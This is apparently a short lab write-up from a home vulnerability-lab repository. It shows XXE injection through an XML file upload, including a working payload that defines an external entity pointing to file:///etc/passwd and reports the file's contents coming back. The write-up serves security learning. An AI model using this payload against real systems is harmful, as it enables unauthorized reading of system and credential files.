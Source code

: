 # XXE - External Entities Injection

- We have got a file upload feature.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/9981feb5-f4be-4001-9aaa-7934811898a9)

- make a file with a username and password in the form of an XML file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```
- while uploading the file we got the username and password.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d6e4a841-c958-4438-a800-c2734a84807b)

- Now, we will parse an XML file which will return us the passwd file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```
- On uploading the file we got data of the passwd file back.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/85bde9bf-fa9a-4da0-a93e-bd0f6c9018ea)

- To view it more neatly, we will switch to the view source by using ctrl+U.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/2f532ae5-d302-460f-94e9-05172b6d24e9)
